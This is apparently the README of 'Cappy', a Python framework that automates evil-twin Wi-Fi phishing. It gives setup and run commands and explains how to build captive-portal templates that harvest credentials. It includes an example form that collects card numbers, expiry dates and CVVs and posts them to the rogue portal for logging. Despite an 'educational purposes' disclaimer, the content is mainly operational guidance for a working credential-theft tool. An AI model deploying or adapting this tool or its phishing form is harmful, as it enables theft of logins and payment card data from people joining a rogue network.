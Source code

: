 # Readme is under construction 🚧

<div align="center">
  <img src="https://flockahh.b-cdn.net/B5860EAD-2DC4-4373-A00C-B0C219CB6D9A.png" alt="Cappy Logo" />
  
##   $${\color{orange}Cappy}$$ 
  
</div>
  
<div>
  
**Evil Twin** is a phishing technique categorized under network attacks, it involves the creation of a **rogue wireless access point (AP)** that masquerades as a legitimate network, such as a public Wi-Fi hotspot or a familiar network with a captive portal, to deceive users into connecting and unknowingly divulging their sensitive login credentials and other personal information transmitted over the compromised connection. 
</div>

<br />

> [!TIP]
> <strong>Cappy, a framework that automates the attack, must be used only in clear, educational purposes.<br /> Any action outside of that context is highly unrecommended, and may result in legal consequences</strong>

# Introduction

**Python** tool, that automates the process of setting up captive portal on Linux machines, with some tweaks.

> [!NOTE]
> This software was tested on: <strong>Kali Linux, KaliPi, ParrotOS</strong><br />
> In case of any trouble, create an issue and describe the error

<br />

**Cappy** operation scheme:

```
  Check Dependencies ---> Choose network interface
          |                ^         |                                                                         
          | missing?       |         └ Change mac address                      Run captive portal <--- Select Template
          |                |                   |                                       |                       |
  Install Dependencies -   |                   └ Menu Screen                           └ Capture credentials   |
                       |_ _|                          | start?                                                 |
                                                      └ Prepare adapter ---> Configure IP Adresses ---> Restart services
                                                      └ Write configs
```

# Setup

**In most cases, Cappy can handle the setup by itself, so give it a try**

<br />

**1-A.** Installing Cappy with pip

  <sub>This will make 'Cappy' available from any path in the terminal</sub>
  
  ```
    $ git clone https://github.com/FLOCK4H/Cappy
    $ cd Cappy
    $ sudo pip install .
  ```

**1-B.** Running Cappy with Python
   
   <sub>We will need to install dependencies manually</sub>

```
  $ sudo apt-get update
  $ sudo apt-get install lighttpd hostapd dnsmasq
  $ cd Cappy
  $ sudo python Cappy
```

# Usage

![image](https://github.com/FLOCK4H/Cappy/assets/161654571/ce6ee823-5408-4b14-8f3c-ce33bb53737b)

```
  $ sudo Cappy
```

**Templates** are being saved to the <i> **/usr/local/share/Cappy/templates** </i>folder.

Creating a new template will result in making new directory in that path with a name of the template.

By default, there are 2 endpoints and 5 fields, that we can use in `index.html` of the template:
- /action.html -> username, password, credit, expire, cvv
- /data -> any

Example:
```
<form method='POST' action="http://10.0.0.15:80/action.html">
    <input type='text' name='credit' placeholder="CARD NUMBER"/>
    <input type='password' name='expire' placeholder="EXPIRY DATE"/>
    <input type='password' name='cvv' placeholder="CVV"/>
    <input value='Submit' type='submit'/>
</form>
```

**Device wanting to join the network will be redirected to the `index.html` of the template, where after entering credentials and submitting, will be redirected to the `action.html`, that harvests those credentials and logs to the console.**

## Troubleshooting

There are numerous reasons for why the Cappy may not work, as it all depends on the network adapter, operating system, and machine capabilities itself.
Carefully read the console when launching the framework, the errors can provide more information on what's going on.

Here are the general steps on how to debug your issue:

1. Ensure dependencies are installed manually

```
  $ sudo apt-get install hostapd dnsmasq lighttpd
```

2. Check paths for conflicts:

```
  $ ls /etc/hostapd
  $ find /etc/dnsmasq.conf
  $ find /usr/local/share/Cappy
```

3. Check logs of the services:

```
  $ sudo systemctl status hostapd
  $ sudo systemctl status dnsmasq

  # If dnsmasq status replied with - 10.0.0.1-150 range is busy, you need to change all 10.0.0.15 and 10.0.0.20-150 entries in the code to other IP and range.
```

> [!TIP]
> In case when troubleshooting steps did not work; please create an issue

## TODO

- [ ] Add run arguments
- [ ] Stable release
- [ ] PyPi release

## LICENSE

$${\color{orange}MIT}$$ 
THE SOFTWARE IS PROVIDED “AS IS”, WITHOUT WARRANTY OF ANY KIND, EXPRESS OR IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY, FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM, OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE SOFTWARE.
